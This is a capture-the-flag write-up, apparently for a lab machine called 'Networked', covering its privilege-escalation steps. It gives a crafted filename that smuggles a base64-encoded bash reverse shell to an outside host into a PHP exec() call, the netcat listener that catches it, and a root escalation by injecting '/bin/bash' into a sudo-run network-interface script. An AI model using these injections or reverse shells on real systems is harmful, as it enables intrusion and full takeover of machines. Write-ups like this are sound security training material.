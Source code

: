 # Privilege Escalation

## Getting user: Guly
- In /home/check_attack.php, we can see a variable $var is being removed, which is a file name in /var/www/html/uploads
```php

...[snip]...

file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
  
...[snip]...

```
- Additionally the filename cannot have `/` in it.
- If we can get $var --> ` '; bash -c "bash -i  >& /dev/tcp/10.10.14.18/9002 0>&1" ' `, then we can get a reverse shell. The same payload as used before. But we can't have `/` in it, so we can convert it into base64 and decode it and execute it.
- So effectively the name of the file should be as such : `;echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAyIDA+JjEiCg== | base64 -d | bash`
- Additionally, the crontab in /home/guly, gives us the information that this is executed as guly.
- Open a listener and we can get a reverse shell in a while.
```bash
nc -lnvp 9002                                                                                               
listening on [any] 9002 ...                                                                                     
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 39284                                                    
bash: no job control in this shell                                                                              
[guly@networked ~]$ python -c 'import pty; pty.spawn("/bin/bash")'                                              
python -c 'import pty; pty.spawn("/bin/bash")'                                                                  
[guly@networked ~]$ ^Z                                                                                          
[1]  + 9349 suspended  nc -lnvp 9002                                                                            
```

## User: root
- After running `sudo -l`, we can see guly can execute changeme.sh as root, without any password
```bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

- Checking the contents of changeme.sh
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```
- At the end ifup is being used to bring up a netwrok interface: guly0.
- There is a [blog](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) post regarding CentOS bug, where a regular user with a permission to execute a network script can escalate privileges.
- The user has to pass `\<anything\> \<cmd\>` in any of the user provided parameter.
```bash
[guly@networked network-scripts]$ sudo /usr/local/sbin/changename.sh
interface NAME:
sad
interface PROXY_METHOD:
sad /bin/bash
interface BROWSER_ONLY:
sad
interface BOOTPROTO:
sad
[root@networked network-scripts]# 

```
- Thus we can cat out the root.txt from /root.txt